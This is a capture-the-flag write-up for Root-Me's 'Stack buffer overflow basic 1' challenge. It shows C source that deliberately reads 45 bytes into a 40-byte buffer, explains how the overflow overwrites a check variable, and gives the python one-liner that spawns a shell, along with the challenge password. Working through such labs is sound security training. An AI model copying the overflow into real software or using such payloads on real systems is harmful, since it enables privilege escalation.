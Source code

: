 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
This challenge does not require to use **GDB**. Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**. Beside, **buf** takes "45 bytes" input while "40 bytes" in declaration, which makes it able to override the value of **check**.<br>
### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
 Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
 But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
 As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Pass: 1w4ntm0r3pr0np1s

